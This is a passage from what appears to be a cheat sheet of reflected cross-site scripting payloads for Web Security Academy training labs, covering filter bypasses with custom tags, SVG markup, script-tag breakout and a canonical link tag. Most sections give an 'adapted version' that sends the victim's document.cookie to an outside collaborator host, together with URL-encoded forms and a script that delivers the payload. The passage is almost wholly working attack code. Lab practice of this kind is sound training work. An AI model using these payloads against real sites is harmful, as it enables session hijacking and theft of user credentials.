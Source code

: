 ```

<script>
location = 'https://kek.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```

### 9. Reflected XSS into HTML context with all tags blocked except custom ones
>All tags are blocked, but you can provide your own (e.g. <xss>). Use the next payload, to send it to victim:
```
<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
**Adapted version**
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?c="+document.cookie tabindex=1>#x

ULR Encoded:

%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?c=%22+document.cookie%20tabindex=1%3E#x
```

### 10. Reflected XSS with some SVG markup allowed
```
<svg><animatetransform onbegin=alert(1)> 
```
**Adapted version**
```
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;>

URL Encoded:

%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;%3E
```


### 11. Reflected XSS in canonical link tag
```
'accesskey='x'onclick='alert(1)
```


### 12. Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>
```
**Adapted version**
```
</script><script>document.location="http://burp.oastify.com/?c="+document.cookie</script>
```
